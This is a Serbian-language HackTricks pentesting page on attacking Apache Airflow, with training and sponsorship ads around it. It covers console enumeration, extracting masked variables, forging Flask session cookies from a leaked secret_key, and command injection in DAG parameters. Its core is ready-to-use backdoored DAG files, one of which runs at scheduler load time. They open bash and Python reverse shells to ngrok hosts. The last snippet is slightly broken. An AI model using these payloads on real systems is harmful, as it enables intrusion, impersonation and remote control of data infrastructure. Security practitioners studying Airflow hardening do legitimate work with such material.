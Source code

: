 # Bezbednost Apache Airflow

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodiču PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** me na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[**Apache Airflow**](https://airflow.apache.org) služi kao platforma za **orkestraciju i zakazivanje podatkovnih tokova ili radnih procesa**. Pojam "orkestracija" u kontekstu podatkovnih tokova označava proces organizovanja, koordinacije i upravljanja složenim podatkovnim tokovima koji potiču iz različitih izvora. Osnovna svrha ovih orkestriranih podatkovnih tokova je da obezbede obrađene i upotrebljive skupove podataka. Ovi skupovi podataka se široko koriste u raznim aplikacijama, uključujući, ali ne ograničavajući se na alate za poslovnu inteligenciju, modele za nauku o podacima i mašinsko učenje, koji su osnovni za funkcionisanje aplikacija velikih podataka.

U osnovi, Apache Airflow će vam omogućiti da **zakazujete izvršavanje koda kada se nešto** (događaj, cron) **desi**.

## Lokalni Lab

### Docker-Compose

Možete koristiti **konfiguracioni fajl docker-compose sa** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) da pokrenete kompletan Apache Airflow docker okruženje. (Ako koristite MacOS, obavezno dodelite barem 6GB RAM-a docker virtuelnoj mašini).

### Minikube

Jedan jednostavan način da **pokrenete Apache Airflow** je da ga pokrenete **sa Minikube-om**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Konfiguracija Airflow-a

Airflow može čuvati **osetljive informacije** u svojoj konfiguraciji ili možete pronaći slabe konfiguracije:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Pre nego što počnete napadati Airflow, trebalo bi da razumete **kako dozvole funkcionišu**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Napadi

### Enumeracija Web Konzole

Ako imate **pristup web konzoli**, možda ćete moći da pristupite nekim ili svim sledećim informacijama:

* **Promenljive** (Ovde se možda čuvaju prilagođene osetljive informacije)
* **Konekcije** (Ovde se možda čuvaju prilagođene osetljive informacije)
* Pristupite im na `http://<airflow>/connection/list/`
* [**Konfiguracija**](./#airflow-configuration) (Osetljive informacije poput **`secret_key`** i lozinke mogu biti ovde sačuvane)
* Lista **korisnika i uloga**
* **Kod svakog DAG-a** (koji može sadržati zanimljive informacije)

### Dobijanje Vrednosti Promenljivih

Promenljive se mogu čuvati u Airflow-u tako da **DAG-ovi** mogu **pristupiti** njihovim vrednostima. Slično je tajnama drugih platformi. Ako imate **dovoljno dozvola**, možete im pristupiti u GUI-u na `http://<airflow>/variable/list/`.\
Airflow će podrazumevano prikazati vrednost promenljive u GUI-u, međutim, prema [**ovome**](https://marclamberti.com/blog/variables-with-apache-airflow/), moguće je postaviti **listu promenljivih** čija će **vrednost** biti prikazana kao **zvezdice** u **GUI-u**.

![](<../../.gitbook/assets/image (164).png>)

Međutim, ove **vrednosti** i dalje mogu biti **dobijene** putem **CLI**-ja (morate imati pristup bazi podataka), **proizvoljno izvršavanje DAG-a**, **API** pristupanje tački promenljivih (API mora biti aktiviran) i **čak sam GUI!**\
Da biste pristupili tim vrednostima iz GUI-a, jednostavno **izaberite promenljive** do kojih želite da pristupite i **kliknite na Akcije -> Izvoz**.\
Još jedan način je izvršiti **bruteforce** na **skrivenoj vrednosti** koristeći **pretragu filtriranja** dok je ne dobijete:

![](<../../.gitbook/assets/image (152).png>)

### Eskalacija Privilegija

Ako je konfiguracija **`expose_config`** postavljena na **True**, od **korisnika sa ulogom Korisnik** i **više** mogu **čitati** **konfiguraciju na webu**. U ovoj konfiguraciji, **`secret_key`** se pojavljuje, što znači da bilo koji korisnik sa ovim validnim ključem može **napraviti svoj potpisani kolačić da se predstavi kao bilo koji drugi korisnički nalog**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Backdoor (RCE u Airflow radniku)

Ako imate **pristup za pisanje** na mestu gde se **DAG-ovi čuvaju**, možete jednostavno **napraviti jedan** koji će vam poslati **obrnutu ljusku**.\
Imajte na umu da će se ova obrnuta ljuska izvršiti unutar **kontejnera za radnike Airflow-a**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Povratna vrata (RCE u Airflow planeru)

Ako postavite nešto da se **izvrši u korenu koda**, u trenutku pisanja ovog teksta, to će biti **izvršeno od strane planera** nakon nekoliko sekundi od postavljanja u fasciklu sa DAG-om.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Kreiranje DAG-a

Ukoliko uspete da **kompromitujete mašinu unutar DAG klastera**, možete kreirati nove **DAG skripte** u `dags/` folderu i one će biti **replikovane na ostalim mašinama** unutar DAG klastera.

### Umetanje Koda u DAG

Kada izvršite DAG iz GUI-ja, možete **proslediti argumente**.\
Stoga, ako DAG nije pravilno napisan, može biti **ranjiv na Umetanje Komandi.**\
To se desilo u ovom CVE-u: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Sve što treba da znate da biste **počeli da tražite umetanja komandi u DAG-ovima** jeste da se **parametri** **pristupaju** kodom **`dag_run.conf.get("ime_parametra")`**.

Osim toga, ista ranjivost može se pojaviti i sa **promenljivama** (imajte na umu da sa dovoljno privilegija možete **kontrolisati vrednost promenljivih** u GUI-ju). Promenljive se **pristupaju sa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ako se na primer koriste unutar bash komande, moguće je izvršiti ubacivanje komande.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
